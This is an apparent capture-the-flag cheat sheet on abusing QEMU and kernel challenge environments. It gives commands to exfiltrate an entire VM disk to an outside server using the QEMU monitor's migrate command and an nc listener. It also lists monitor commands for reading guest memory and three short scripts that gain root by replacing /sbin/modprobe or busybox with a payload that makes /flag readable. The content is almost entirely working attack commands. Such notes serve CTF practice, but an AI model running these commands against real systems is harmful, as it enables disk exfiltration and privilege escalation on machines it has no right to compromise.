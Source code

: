 # Abusing QEMU Monitor
`^A c` to toggle QEMU monitor. 

## Using `migrate`
If QEMU has internet access, you can use the `migrate` command to send the contents of the entire disk to your own server.
First, listen for connections on your server
```sh
nc -lvnp 8888 > qemu.out
```
Then go into QEMU Monitor in the challenge and run
```
migrate tcp:IP:8888
```
Then you can just grep for the flag in the resulting `qemu.out` file.

## Using memory access
If you cannot get the flag with the above method, you can at least use QEMU Monitor to get direct read access to the memory.
* `info registers` to get registers
* `info mem` to get vmmap
* `info mtree` for physical mappings
* `x/gx addr` to print virtual memory
* `xp/gx addr` to print physical memory

If the flag is in memory, this can be used to get it. Otherwise, it can at least be used to get leak.

# Abusing write-access
## Write-access to `/sbin`
```sh
echo -en '\xff\xff\xff\xff' > /tmp/dummy
chmod +x /tmp/dummy
mv /sbin/modprobe /tmp
echo -en '#!/bin/sh\nchmod 777 /flag\n' > /sbin/modprobe
chmod +x /sbin/modprobe
/tmp/dummy
cat /flag
```

## Write-access to `/`
```sh
echo -en '\xff\xff\xff\xff' > /tmp/dummy
chmod +x /tmp/dummy
mv /sbin /tmp/sbin
mkdir /sbin
echo -en '#!/bin/sh\nchmod 777 /flag\n' > /sbin/modprobe
chmod +x /sbin/modprobe
/tmp/dummy
cat /flag
```

## Write-access to `/bin`
Usually `/sbin/modprobe` points to `/bin/busybox`
```sh
echo -en '\xff\xff\xff\xff' > /tmp/dummy
chmod +x /tmp/dummy
cp /bin/busybox /bin/busybox2
ln -sf busybox2 /bin/cat 
ln -sf busybox2 /bin/chmod 
ln -sf busybox2 /bin/sh
echo -en '#!/bin/sh\nchmod 777 /flag\n' > /tmp/busybox
chmod +x /tmp/busybox
mv -f /tmp/busybox /bin/busybox
/tmp/dummy
cat /flag
```
